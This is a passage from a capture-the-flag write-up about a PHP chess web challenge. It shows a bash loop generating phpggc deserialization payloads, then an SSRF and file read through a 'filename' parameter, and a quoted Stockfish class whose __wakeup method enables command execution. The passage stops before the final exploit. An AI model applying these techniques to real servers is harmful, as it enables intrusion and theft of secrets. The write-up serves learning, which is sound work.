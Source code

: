 ```bash
      ./phpggc $options $gadget "$function('$command?$(date +%s)');"
   elif echo $line | grep -q "<command>"; then
      ./phpggc $options $gadget "$command?$(date +%s)"
   else
      ./phpggc $options $gadget
   fi;
done
```

I then found out that there was a Server-side request forgery (SSRF)[^ssrf] in the feature used to start the game. This is a POST request with a parameter `filename` set to `baseboard.fen`. We can replace the value by a URL and the game will try to load it.

[^ssrf]: [Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf)

My first attempt was to load a [custom FEN](https://gist.githubusercontent.com/Techbrunch/b0a72c4c1933a85b7c74726b0dc372ae/raw/d19b62c0036d68965218f9dc4e61ef08e104ff3d/baseboard.fen) with mate in one move for white. To do this I used a [Chess FEN Viewer](https://www.dailychess.com/chess/chess-fen-viewer.php).

!!!info
    Forsyth–Edwards Notation (FEN) is a standard notation for describing a particular board position of a chess game. The purpose of FEN is to provide all the necessary information to restart a game from a particular position.

It worked but this time winning wasn't enough anymore:

> Winning against me won't help anymore. You need to get the flag from my envs.

Turns out we can use the same vulnerability to read the source code of the application, if we set the `filename` value to `index.php`, the content of `index.php` will be returned as part of the response. 

We can see that the class `Stockfish` implements the `__wakeup` that we could use to execute arbitrary command. Now we have everything we need to exploit the deserialization vulnerability.

```php
<?php
class Stockfish
{
    public $cwd = "./";
    public $binary = "/usr/games/stockfish";
    public $other_options = array('bypass_shell' => 'true');
    public $descriptorspec = array(
        0 => array("pipe","r"),
                1 => array("pipe","w"),
    );
    private $process;
    private $pipes;
    private $thinking_time;

    public function __construct()
    {
        $other_options = array('bypass_shell' => 'true');
        //echo "Stockfish options" . $_SESSION['thinking_time'];
        if (isset($_SESSION['thinking_time']) && is_numeric($_SESSION['thinking_time'])) {
            $this->thinking_time = $_SESSION['thinking_time'];
        } else {
            $this->thinking_time = 10;
        }
        $this->process = proc_open($this->binary, $this->descriptorspec, $this->pipes, $this->cwd, null, $this->other_options) ;
    }
    public function passUci()
    {
        if (is_resource($this->process)) {
            fwrite($this->pipes[0], "uci\n");
            fwrite($this->pipes[0], "ucinewgame\n");
```

[^docker-for-pentester]: [Docker for Pentesters](https://blog.ropnop.com/docker-for-pentesters/)
[^insecure-deserialization]: [Insecure deserialization](https://portswigger.net/web-security/deserialization)
